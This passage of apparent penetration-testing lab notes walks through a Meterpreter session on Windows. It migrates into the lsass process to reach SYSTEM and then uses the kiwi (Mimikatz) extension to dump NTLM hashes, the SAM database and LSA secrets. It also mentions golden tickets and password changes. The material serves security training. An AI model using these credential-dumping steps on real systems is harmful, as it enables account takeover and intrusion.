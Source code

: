 ```
meterpreter > sysinfo
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

Migrate to lsass.exe process, find the process id of lsass service. Because we have administrator privileges, we can migrate to any process. `NT AUTHORITY\SYSTEM` is the highest privileges on Windows system.

```
meterpreter > pgrep lsass
788
meterpreter > migrate 788
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Let's start first and foremost with kiwi module, which is an inbuilt meterpreter extension.

```
meterpreter > load kiwi
meterpreter > ?
Kiwi Commands
=============
Commands                Description
--------                -----------
creds_all               Retrieve all credentials (parsed)
lsa_dump_sam            Dump LSA SAM (unparsed)
```

That will dump all credentials. We get NTML hash of the Administrator user. And in terms of wdigest credentials and kerberos credentials, you can see that no clear-text passwords are specified. The reason that is the key because Windows version later than 8.1 do not store clear-text passwords at all. But we still able to get NTLM hashes.

```
meterpreter > creds_all
```

That is going to dump all the NTLM hashes for all the user accounts on the system. SAM database is encrypted with the syskey. We also get the SAMKey here.

```
meterpreter > lsa_dump_sam
```

In certain situation, this particular or dump lsa secrets could provide you with some clear-text credentials in some cases.

```
meterpreter > lsa_dump_secrets
```

You can also dump `creds_wdigest`, which we did because we ran `creds_all` command.
If you are working with an active directory environment, you can create golden ticket, golden kerberos ticket for that matter. And of course, you can list all kerberos tickets.

In terms of what we are doing, another great tool you can run is `password_change`. During a penetration test, I would not recommend doing that, because you obviously change an account password that is been used in a production environment.
